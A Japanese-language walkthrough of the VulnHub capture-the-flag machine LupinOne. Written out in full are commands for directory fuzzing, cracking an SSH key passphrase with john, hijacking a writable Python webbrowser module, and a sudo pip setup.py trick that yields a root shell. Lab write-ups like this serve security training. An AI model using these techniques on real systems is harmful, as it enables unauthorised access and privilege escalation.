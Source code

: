 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### 画像を調べる
- ステガノグラフィを調べる

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
  - 初めは`--h?`をつけずに実行して関係なさそうなのを探す。ここでは404のステータスコードを返しているので`--hc 404`をつける
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - helpを見て`--h?`を他に行や単語数、文字数でもやってみる 

- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける。正直、これだけのヒントでFUZZの頭にドットをつけるのに気づくのは難しいと思う
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
  - `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`
- (参考)辞書は他ので使える
  - /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt

### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする

### ファイルを分析
- ファイルを見た感じでは秘密鍵でなく、何かしらの暗号化されているのはわかるので調べる
- `cat .mysecret2.txt | grep -o . | sort | uniq | wc`
- 58なのでBase58

### CyberChefでdecode
- CyberChefでInputでコピーをペーストする
- 一番左のsearchに`from base`と入力する。
- 青色の背景になるのでFrom base32~From base92まで順に上からドロップ&ドラッグでRecipeに置いておくとOutputに文字化けしないのを試していく。文字化けしたらゴミ箱があるのでゴミ箱を押して消して次のOperationに進んでいく
- Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
### 秘密鍵のPermissionを変更する
- `chmod 700 key`
- `chmod 777 key`にするとsshが繋がらない。これは秘密鍵は本来、所有者しか使うことができなので当然なので、それに合わせている

### パスフレーズの解析
- (1) コマンドを使う。とても簡単これだけでもいい
  - `ssh2john key > pass.txt` 
- 暗号解析
  - `sudo john pass.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
  - パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name '*webbrowser*' -type f -writable 2>/dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`





